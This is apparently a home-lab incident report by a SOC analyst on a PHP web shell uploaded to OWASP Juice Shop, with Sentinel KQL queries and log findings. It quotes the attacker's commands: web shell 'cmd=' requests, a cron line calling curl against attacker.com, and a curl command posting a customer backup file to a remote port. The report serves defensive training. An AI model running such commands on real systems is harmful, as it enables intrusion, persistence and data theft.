





# 06 – Suspicious File Upload Investigation Report

**Author:** Ovuowo Rukevwe  
**Role:** SOC Analyst (Security Home Lab Project)  
**Platform:** Microsoft Sentinel  
**Date of Investigation:** 20 July 2026  
**Incident Severity:** Critical  
**Incident Status:** Closed – Web Shell Activity Confirmed and Contained  

---

# Executive Summary

On **20 July 2026**, Microsoft Sentinel generated multiple **High Severity** alerts for suspicious file upload activity targeting the OWASP Juice Shop web application.

The investigation identified that an attacker from:


```
192.168.138.130

successfully uploaded and accessed a malicious PHP web shell:

/uploads/shell.php

```


Further analysis of Nginx access logs confirmed remote command execution through the web shell using the `cmd` parameter.

Observed attacker activity included:
- System information discovery using `id`
- File creation attempts
- Persistence attempts through cron configuration
- Sensitive file transfer attempts using `curl`

The investigation correlated activity across:
- Nginx Access Logs
- Zeek HTTP Logs
- Zeek Connection Logs
- Suricata Network Telemetry

The attack was classified as:
> **True Positive – Web Shell Upload and Post-Exploitation Activity Confirmed**

No evidence was identified confirming successful persistence, lateral movement, malware deployment, or completed data exfiltration.

**Final Status:**

> Closed – Malicious Web Shell Activity Identified and Contained

---




---

# Incident Overview

| Field | Value |
|---|---|
| Incident Name | Suspicious File Upload Investigation |
| Severity | Critical |
| Category | Web Application Attack |
| Detection Platform | Microsoft Sentinel |
| Target Application | OWASP Juice Shop |
| Source IP | 192.168.138.130 |
| Destination IP | 192.168.8.128 |
| Attack Type | Web Shell Upload |
| MITRE Technique | T1505.003 – Web Shell |
| Status | Closed |

---

# Attack Description

A malicious file upload vulnerability occurs when an attacker is able to upload executable files to a web application.

In this incident, the attacker uploaded a PHP web shell:

```
shell.php

The uploaded file allowed remote command execution through:

/uploads/shell.php?cmd=<command>

```

A successful web shell attack can allow attackers to:

- Execute commands remotely
- Discover system information
- Modify files
- Establish persistence
- Access sensitive data
- Perform data exfiltration

---

# Investigation Methodology

The investigation followed the SOC investigation process:

1. Validate Microsoft Sentinel alerts.
2. Identify suspicious uploaded files.
3. Review HTTP requests related to file upload activity.
4. Analyze web shell command execution.
5. Investigate persistence attempts.
6. Review network communication.
7. Determine impact and classify the incident.

---

# Attack Timeline

| Time | Event |
|---|---|
| 13:06 | Suspicious PHP file upload activity detected |
| 13:26 | Web shell accessed using `id` command |
| 13:27 | File creation command executed |
| 13:30 | Persistence attempt observed |
| 13:32 | Cron persistence attempt detected |
| 13:33 | Data transfer attempt observed |

---

# Evidence Collection and Analysis

---



# 1. Nginx Access Log Analysis

## Query

```
NginxAccessLogs_CL
| where TimeGenerated > ago(7days)
| where URL matches regex @"(?i)(upload|uploads|file-upload|fileupload|attachment|import)"
   or URL matches regex @"(?i)(\.php|\.php5|\.jsp|\.jspx|\.aspx|\.asp|\.exe|\.dll|\.sh)"
| project
    TimeGenerated,
    ClientIP,
    Method,
    URL,
    StatusCode,
    UserAgent
| order by TimeGenerated desc

```




Findings

Nginx logs confirmed successful access to:

```
/uploads/shell.php

Observed commands:

/uploads/shell.php?cmd=id

```


### Purpose:

System identity discovery

Additional activity:

```
/uploads/shell.php?cmd=touch /var/tmp/SOC_PERSISTENCE_CONFIRMED

```

### Purpose:

File creation attempt:

```
/uploads/shell.php?cmd=curl -d @/tmp/customer_backup.txt http://192.168.8.128:9000

```

### Purpose:
Attempted data exfiltration

The evidence confirms that the uploaded PHP file was not only stored but successfully executed commands on the web server.

# 2. Zeek HTTP Analysis

```
ZeekHTTP_CL
| where TimeGenerated > ago(7days)
| extend DecodedURI=url_decode(URI)
| where DecodedURI contains "shell.php"
| project
    TimeGenerated,
    SrcIP,
    DestIP,
    DecodedURI
| order by TimeGenerated desc
Findings

```



Zeek identified repeated HTTP requests targeting:

```
/uploads/shell.php
```

Source:

192.168.138.130

Destination:

192.168.8.128

Additional discovered locations:

```
/assets/shell.php
/files/shell.php
/uploads/shell.php

```

The activity indicates:
Upload location discovery
Web shell access
Post-exploitation activity


# 3. Zeek Connection Analysis
Findings

Zeek connection telemetry confirmed communication between:

```
Source:
192.168.138.130

Destination:
192.168.8.128

```

Observed traffic targeted:

TCP Port 3000
The connection data supports communication between the attacker system and the vulnerable web application.


# 4. Suricata Network Analysis

Findings

Suricata telemetry detected suspicious application traffic associated with the web application attack.




Observed:

Source IP:
192.168.138.130

Destination IP:
192.168.8.128

The activity correlated with the web shell execution timeline.

Post-Exploitation Activity

After gaining web shell access, the attacker performed additional actions.

Command Execution

Observed:

```
cmd=id

```


Observed:

``` 
echo '* /5 * * * * curl attacker.com' >> /etc/cron.d/test

and:

touch /var/tmp/SOC_PERSISTENCE_CONFIRMED

```

Purpose:

Attempted scheduled task persistence.


Observed:

```
curl -d @/tmp/customer_backup.txt http://192.168.8.128:9000

```


Purpose:

Attempted transfer of local data.

No evidence confirmed successful transfer.

Impact Assessment
Confirmed

- Malicious PHP web shell uploaded
- Web shell execution confirmed
- Remote command execution achieved
- System discovery performed
- Persistence attempts observed
- Data transfer attempt observed

Not Confirmed

- Successful persistence
- Successful data exfiltration
- Malware installation
- Lateral movement
- Additional compromised systems

Indicators of Compromise
| IOC Type       | Indicator          | Description                 |
| -------------- | ------------------ | --------------------------- |
| Source IP      | 192.168.138.130    | Attacker host               |
| Destination IP | 192.168.8.128      | Target application server   |
| Web Shell      | /uploads/shell.php | Malicious PHP web shell     |
| Parameter      | cmd=               | Command execution parameter |
| Command        | id                 | User discovery              |
| Command        | curl               | Data transfer attempt       |
| File Path      | /etc/cron.d/test   | Persistence attempt         |


Actions performed:

Investigated suspicious upload activity.
Confirmed malicious PHP web shell execution.
Reviewed attacker commands.
Analysed persistence attempts.
Reviewed network telemetry.
Classified incident as True Positive.

Recommended containment actions:

Remove malicious uploaded files.
Restrict executable file uploads.
Validate uploaded file extensions.
Implement application security controls.
Deploy Web Application Firewall rules.
Review application permissions.
Final Incident Classification

Verdict: True Positive

Attack Type: Web Shell Upload and Post-Exploitation

Severity: Critical

Outcome:
The investigation confirmed that a malicious PHP web shell was uploaded and executed on the web application server. The attacker achieved remote command execution and attempted persistence and data transfer activities.

No evidence confirmed successful persistence, lateral movement, or completed data exfiltration.

Final Status: Closed – Web Shell Activity Confirmed and Contained


Previous: 

[05-Command-Injection-Investigation](./05-Command-Injection-Investigation.md)

Next:
